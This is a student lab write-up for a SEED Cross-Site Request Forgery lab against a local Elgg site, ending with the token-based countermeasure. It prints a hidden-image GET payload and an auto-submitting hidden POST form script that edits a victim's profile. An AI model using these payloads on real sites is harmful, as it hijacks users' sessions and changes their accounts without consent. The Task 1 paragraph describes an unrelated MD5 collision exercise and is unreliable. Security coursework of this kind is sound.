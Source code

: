 # CS 4173 Lab 4
#### Cross-Site Request Forgery Attack Lab

## Prerequisites
Versions of software used listed here:
- Environment: SEEDUbuntu 16.04

## Task 1: Observing HTTP Request

In this task, we use the provided tool to generate two binary files which result in the same hash when using the MD5 hashing algorithm. By observing the output, we can see that the prefix is appended to the output binary as a 64 length block. There are 3 prefix files included: `63longprefix.txt`, `64longprefix.txt`, and `65longprefix.txt`. These were used to test the outputs when the prefix is a multiple of 64, less than a multiple of 64, or greater than a multiple of 64. 

## Task 2: CSRF Attack Using GET Request

In this task we will demonstrate a GET request attack to show how a GET request attack can be launched if the victim is directed to a malicious site. We can create a webpage in the directory for the csrflabattacker.com domain which has a hidden image with the `src` set to the URL we wish to attack and the GET request will be triggered automatically. The image tag used is the following: 

```html
<img src="http://www.csrflabelgg.com/action/friends/add?friend=42" alt="" style="position:absolute; left:-999999999999999999999999999999999999999px" width="1" height="1">
```

## Task 3: CSRF Attack Using POST Request

In this task we will demonstrate how a POST request can also be used to perform attacks against servers which are not protected against it. Using the same directory, we can modify the page to contain a script that will run and auto invoke itself upon loading the page. The script will create a form with a field to set the `description` field and the `accesslevel` for that field along with the `guid` of the target. The elgg token security has been disabled so the attack does not require those. When Alice reaches this page, her logged in session cookie is still in the browser and will allow the request to be sent and modifying her profile. 

![Screenshot of successful post attack](post-attack.png "Alice's profile after redirecting back from the attacker's site")

The script on the page consists of the following:

```js
function forge_post() {
    var fields;
    // The following are form entries need to be filled out by attackers.
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='Alice'>";
    fields += "<input type='hidden' name='briefdescription' value=''>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]' value ='2'> ";
    fields += "<input type='hidden' name='description' value='<p>Boby is my Hero</p>'>";
    fields += "<input type='hidden' name='accesslevel[description]' value='2'>";

    fields += "<input type='hidden' name='guid' value='42'>";
    // Create a <form> element.
    var p = document.createElement("form");
    // Construct the form
    p.action = "http://www.csrflabelgg.com/action/profile/edit";
    p.innerHTML = fields;
    p.method = "post";
    // Append the form to the current page.
    document.body.appendChild(p);
    // Submit the form
    p.submit();
}
// Invoke forge_post() after the page is loaded.
window.onload = function () { forge_post(); }
```

### Question 1

Boby cannot retrieve Alice's `guid` by logging into her account, but fortunately he does not need to. By visiting Alice's page as a visitor, he can inspect the "Add friend" button which contains her `guid` in the GET request URL.

### Question 2

It is possible to retrieve the `guid` of anyone who visits the page, assuming they are logged in. One only needs to know their profile username in order to view their page and retrieve the `guid` from the "Add friend" button. This can be achieved by sending a malicious GET request to `http://www.csrflabelgg/profile` which will redirect to the logged in user's page which can be found in the response headers. The attacker can then pull that URL and retrieve the `guid`.

## Task 4: Implementing a countermeasure for `Elgg`

In this task, we re-enable the disabled CSRF countermeasures and retry the attacks. They now no longer work because the server now expects two extra values, the `__elgg_ts` and `__elgg_token` values in both the GET and POST for these tasks. There is no way for the attacker to know these values before hand since they are generated each time the page is loaded, and is different every time the page is visited. As long as the algorithm used to generate these values are secure enough, the attacker will not be able to predict these values and launch a CSRF attack.